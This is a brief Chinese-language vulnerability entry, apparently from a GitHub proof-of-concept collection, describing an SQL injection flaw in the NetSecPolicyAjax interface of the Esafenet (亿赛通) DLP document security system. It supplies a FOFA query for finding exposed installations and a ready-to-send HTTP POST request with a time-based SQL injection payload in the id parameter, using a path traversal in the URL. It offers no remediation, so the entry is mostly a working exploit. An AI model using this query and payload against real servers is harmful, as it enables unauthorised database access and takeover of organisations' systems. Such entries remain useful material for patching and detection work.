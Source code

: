 # 亿赛通电子文档安全管理系统NetSecPolicyAjax存在SQL注入漏洞

亿某通电子文档安全管理系统` NetSecPolicyAjax`接口的`id`参数处对传入的数据没有预编译和充足的校验，导致该接口存在SQL注入漏洞，恶意攻击者可能通过该漏洞获取服务器信息或者直接获取服务器权限

## fofa

```yaml
app="亿赛通-DLP"
```

## poc

```javascript
POST /CDGServer3/js/../NetSecPolicyAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=upPriority&id=-1'waitfor delay '0:0:5'--
```

